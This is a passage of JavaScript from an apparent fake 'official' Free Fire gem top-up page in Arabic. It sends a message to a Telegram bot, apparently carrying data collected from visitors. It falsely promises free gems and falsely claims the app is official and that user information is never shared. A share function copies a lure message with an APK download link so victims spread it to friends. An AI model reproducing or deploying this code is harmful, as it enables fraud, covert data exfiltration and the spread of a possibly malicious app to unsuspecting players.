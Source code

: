       fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ chat_id: chatId, text: message })
      })
      .then(() => {
        document.getElementById('loading').style.display = 'none';
        Swal.fire({
          title: 'Garena Free Fire',
          text: `تم حفض طلب الشحن  ستصلك  ${gems} جوهرة ان كنت قد شاركت التطبيق مع اصدقائك عبر زر المشاركة في الردهة..`,
          icon: 'success',
          confirmButtonText: 'موافق'
        });
      })
      .catch(() => {
        document.getElementById('loading').style.display = 'none';
        Swal.fire({ icon: 'error', title: 'خطأ', text: 'حدث خطأ أثناء الإرسال.' });
      });
    }

    function shareApp() {
      Swal.fire({
        title: 'مشاركة التطبيق',
        text: ' انسخ الرسالة وشاركها مع أصدقائك عبر مسنجر او فيسبوك او شاركها في منشوراتك لتحصل على 300 جوهرة مجانية تلقائيا في حسابك عند استعمال كل 1 صديق للتطبيق !',
        icon: 'info',
        confirmButtonText: 'نسخ الرسالة'
      }).then(() => {
        navigator.clipboard.writeText(
`حسناً يا اصدقائي! لقد وجدت طريقة رائعة لربح 300 جوهرة مجانية في فري فاير! كل ما عليك القيام به هو تثبيت التطبيق من خلال الرابط الخاص بي وتشغيله.

الرابط : [ https://apk.e-droid.net/apk/app3650002-eqwkbh.apk?v=1 ]`
        );
      });
    }

    const welcomeSlides = [
      { title: "مرحبا بك!", text: "في التطبيق الرسمي لشحن جواهر فري فاير" },
      { title: "سهولة الاستخدام", text: "واجهة بسيطة وسريعة الاستخدام" },
      { title: "مكافآت مجانية", text: "يمكنك الحصول على الجواهر المجانية أو المدفوعة!" },
      { title: "آمن وموثوق", text: "لا يتم مشاركة معلومات المستخدمين مع أي أحد!" },
      { title: "لنبدأ الآن!", text: "اضغط على زر البدء للمتابعة" }
    ];
    let currentSlide = 0;

    function showSlide(i) {
      const s = welcomeSlides[i];
      document.getElementById('slide').innerHTML = `<h2>${s.title}</h2><p>${s.text}</p>`;
      document.getElementById('nextBtn').innerText = i === welcomeSlides.length-1 ? 'ابدأ' : 'التالي';
    }
